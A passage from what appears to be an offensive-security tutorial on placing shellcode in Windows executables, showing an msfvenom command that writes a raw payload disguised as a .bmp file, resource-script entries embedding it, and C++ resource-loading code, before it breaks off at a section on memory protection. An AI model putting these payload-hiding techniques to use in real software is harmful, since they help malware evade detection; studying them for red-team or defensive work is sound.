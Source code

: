Tracing the above steps, the memory location now points to the `.data` section, as opposed to the `.rdata` section as shown below.

![Payload located in .data section](/assets/img/4.png)
_Payload located in .data section._


## 3 - Payload Location Variation

Lets try another variation using resources. In this technique, we'll look at completely removing the payload from our C++ file and embedding it in a .bmp resource file. We begin by generating a binary file containing the payload using the following command:

```msfvenom -p windows/exec CMD=calc.exe -f raw > /tmp/calc_bin.bmp```

Next, we reference this in the following files:

```
resource.rc

#include "resource.h"

CALC_BIN_BMP RCDATA calc.bmp
```

```
resource.h

#pragma once
#define CALC_BIN_BMP 100

```
A gotcha to keep in mind, is header files need a newline at the bottom otherwise it complains.


And finally we make the following changes to our C++ file:
```
	HRSRC resource = FindResource(NULL, MAKEINTRESOURCE(CALC_BIN_BMP), RT_RCDATA);
	HGLOBAL hResource = LoadResource(NULL, resource);
	unsigned char* payload = (unsigned char *) LockResource(hResource);
	int payload_len = SizeofResource(NULL, resource);

	printf("[*] Payload address 0x%-016p", (void*)payload);
		printf("[*] Size of payload is %d.\n", payload_len);
```

FindResource will locate the resource within a specified module. Passing a NULL as the first parameter causes the function to search the module used to create the calling process.

LoadResource will return a handle to this resource, so that we can further manipulate it.

And finally we have LockResource, which returns a pointer to the resource.

Combining these function calls, allows us to use a resource as the payload carrier. 


## 4 - Changing memory protection 

```